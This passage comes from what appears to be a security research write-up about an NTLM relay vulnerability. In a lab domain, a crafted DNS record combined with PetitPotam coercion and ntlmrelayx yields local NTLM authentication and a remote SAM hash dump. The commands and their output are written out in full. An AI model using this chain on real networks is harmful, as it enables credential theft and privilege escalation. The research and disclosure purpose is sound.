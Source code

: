 To hunt for unusual behavior, we fiddled with different parameters such as the listener host or the client IP address. We registered the `srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA` DNS record and made it point to our IP address. This format, first documented by James Forshaw, can be used to coerce machines into authenticating via Kerberos to a controlled IP address.

When coercing SRV1 with the previous DNS record as the listener, we stumbled across a weird behavior: **the relay actually worked!**

```bash
$ dnstool.py -u 'ASGARD.LOCAL\loki' -p loki 192.168.56.10 -a add -r srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 192.168.56.3
[-] Adding new record
[+] LDAP operation completed successfully

$ PetitPotam.py -u loki -p loki -d ASGARD.LOCAL srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA SRV1.ASGARD.LOCAL
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

# ntlmrelayx.py -t SRV1.ASGARD.LOCAL -smb2support
[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.56.14, attacking target smb://SRV1.ASGARD.LOCAL
[*] Authenticating against smb://SRV1.ASGARD.LOCAL as / SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x0c10b250470be78cbe1c92d1b7fe4e91
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:df3c08415194a27d27bb67dcbf6a6ebc:::
user:1000:aad3b435b51404eeaad3b435b51404ee:57d583aa46d571502aad4bb7aea09c70:::
[*] Done dumping SAM hashes for host: 192.168.56.14
```

Even more surprisingly, `ntlmrelayx.py` was able to remotely dump the SAM hive, which means the identity we relayed was privileged on the machine. This seemed odd because the machine account is not privileged on its associated machine.

 

## Understanding the Vulnerability

To quickly understand what had happened, network captures were done for both relay attacks. An obvious difference stood out:

- In the network capture of the relay with the `srv11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA` hostname, **NTLM local authentication** took place!
- When coercing the machine with an IP address as the listener, a standard NTLM authentication occurred.

### Local NTLM Authentication
